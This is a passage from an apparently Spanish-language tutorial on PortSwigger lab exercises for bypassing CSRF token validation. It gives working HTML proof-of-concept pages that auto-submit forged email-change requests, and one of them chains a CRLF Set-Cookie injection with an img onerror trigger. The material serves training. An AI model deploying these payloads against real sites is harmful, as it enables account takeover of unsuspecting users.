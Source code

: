 Una PoC podría ser la siguiente:

```bash
<html>
    <body>
        <form action="https://URL-Vulnerable/my-account/change-email" method="POST" >
            <input type="hidden" name="email" value="antu97@test.com" />
            <input type="hidden" name="csrf" value="Token del atacante" />
        </form>
        <script>
      document.forms[0].submit();
    </script>
    </body>
</html>
```

Laboratorio  [aqu](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-not-tied-to-user-session)í.

## El CSRF Token esta vinculado a una cookie distinta a la de sesión

```jsx
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=pSJYSScWKpmC60LpFOAHKixuFuM4uXWF; csrfKey=rZHCnSzEp8dbI6atzagGoSYyqJqTz5dv

csrf=RhV7yQDO0xcq9gLEah2WVbmuFqyOq7tY&email=test@test.com
```

Se puede dar el caso de que el token no esta ligado a la cookie que trackea la sesión y este ligada a otra(csrfkey). Para testear primero debemos probar:

4.1 Comprobar que la cookie(csrfkey) no esta ligado al token

- Introducir un token no valido
- introducir un token de otro usuario

4.2  Introducir una cookie(csrf Key) y token de otro usuario

Si este ultimo se cumple para explotar la vulnerabilidad debemos inyectar la cookie en la sesión del usuario en este ejemplo a través del parámetro de búsqueda de la web ya que se ve reflejado en la respuesta.

En esta PoC se utiliza el csrf y csrfkey del atacante para cambiar la del usuario

```bash
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://Url-Vulnerable/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="antu97@test&#46;com" />
      <input type="hidden" name="csrf" value="CSRF-ATACANTE" />
    </form>
     <img src="https://0acb008503ccb1858109de59003c0073.web-security-academy.net?search=test%0d%0aSet-Cookie:%20csrfKey=CSRFKEY-ATACANTE%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>

```
